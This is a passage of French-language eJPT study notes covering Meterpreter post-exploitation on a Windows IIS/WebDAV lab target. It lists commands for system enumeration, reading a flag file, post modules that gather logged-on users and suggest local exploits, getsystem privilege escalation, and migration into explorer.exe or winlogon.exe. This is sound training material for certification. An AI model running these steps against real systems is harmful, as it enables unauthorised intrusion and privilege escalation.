 **Metasploit :**
- 🎯 **Exploitation rapide** pour eJPT
- 🎯 **Post-exploitation** avancée nécessaire
- 🎯 **Session stable** requise
- 🎯 **Automatisation** préférée

---

## 🔍 8. Post-exploitation avec session Meterpreter

### Commandes Meterpreter WebDAV
```bash
# Informations système
sysinfo
getuid                                  # IIS APPPOOL\DefaultAppPool
getpid
ps

# Navigation système
shell                                   # Passer en shell Windows
cd /                                    # ou cd C:\
dir                                     # Lister répertoire racine
type flag.txt                          # Lire fichier flag

# Retour Meterpreter
exit                                    # Quitter shell → retour Meterpreter
```

### Énumération avancée Meterpreter
```bash
# Dans session Meterpreter
run post/windows/gather/enum_logged_on_users
run post/windows/gather/checkvm
run post/windows/gather/enum_applications
run post/multi/recon/local_exploit_suggester

# Escalation de privilèges
getsystem                              # Tentative auto-escalation
run post/windows/escalate/getsystem    # Alternative
```

### Migration et stabilisation
```bash
# Migration vers processus plus stable
ps                                     # Lister processus
migrate <pid_explorer>                 # Migrer vers explorer.exe
migrate <pid_winlogon>                 # Ou vers winlogon.exe
```

---

## 🛠️ 9. Exploitation alternative avec dirb
